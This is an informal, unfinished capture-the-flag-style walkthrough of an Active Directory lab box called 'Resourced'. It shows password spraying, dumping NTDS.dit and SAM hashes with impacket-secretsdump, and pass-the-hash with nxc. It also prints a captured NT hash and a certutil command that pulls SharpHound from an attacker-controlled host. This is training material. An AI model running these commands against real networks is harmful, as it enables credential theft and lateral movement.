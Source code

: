 # Resourced

I start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

then i looked to map smb shares but without success and decided to try and look at usernames through RID bruteforcing and description enumeration and got a hit:

<figure><img src="../../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

So i add every username in a users.txt and see what rights i have with this new ste of credentials:

Just to be sure that the password is only valid for ventz i spray it:

<figure><img src="../../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

While mapping shares i can see a password audit folder that seems interesting:

<figure><img src="../../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

So i download everything in those shares:

<figure><img src="../../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

and we got some interesting files:

<figure><img src="../../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

then i google some commands and see this:

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets" %}

<figure><img src="../../../.gitbook/assets/image (153).png" alt=""><figcaption><p>impacket-secretsdump -security SECURITY -system SYSTEM LOCAL</p></figcaption></figure>

and this that seemed just a bit more interesting:

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/ntds" %}

```
impacket-secretsdump -ntds ../Active\ Directory/ntds.dit -system SYSTEM LOCAL
```

This dumped a lot more:

<figure><img src="../../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

So i take all of the NT hashes from this ouput and try pass the hash on our username list&#x20;

```
nxc smb 192.168.51.175 -u users.txt  -H hashes --shares
```

and it works so i try to see if i have winrm rights&#x20;

<figure><img src="../../../.gitbook/assets/image (155).png" alt=""><figcaption><p>L.Livingstone:19a3a7550ce8c505c2d46b5e39d6f808</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

Will come back later, forgot i had a job my bad gang

I installed sharphound on the target and launch it:

```
certutil -f -urlcache http://192.168.49.56:9090/SharpHound.exe Sharp.exe
. ./Sharp.exe
```

<figure><img src="../../../.gitbook/assets/image (251).png" alt=""><figcaption></figcaption></figure>

Bloodhound can't be installed on the vm bruh

